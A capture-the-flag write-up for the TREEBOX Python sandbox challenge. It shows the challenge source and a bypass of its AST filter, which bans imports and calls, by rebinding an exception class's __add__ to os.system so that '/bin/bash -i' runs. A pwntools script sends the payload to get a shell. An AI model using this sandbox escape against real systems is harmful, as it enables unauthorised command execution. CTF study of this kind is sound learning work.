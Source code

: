 ## TREEBOX

### Attachment

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

### Description

This challenge belongs to the sandbox category, and uses python and takes arbitrary python script input from the client and verifies the program with the `verify_secure()` function.

```python
...snip...
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
...snip...
```

And here we need to pass this function to execute malicious python script to server, and we need to pass 3 walls:
- ast.Import
- ast.ImportFrom
- ast.Call

After some time I found [this](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls) bypass in hacktricks to bypass `call ` and it worked!

```python
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:__
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```

class `Klecko()` creates a function that `__add__` something and returns 1, but adds the function `os.system` instead, and triggers it with "try except" and appends "/bin/bash -i" to the function of that class have os.system in it? I assume this class is an intermediary between the os.system function and the string "/bin/bash -i" thus producing a function like `os.system('/bin/bash -i')` without calling the `os.system` function. 

### Python Solution

```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```

I just added it to the payload and here we got the shell :)
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls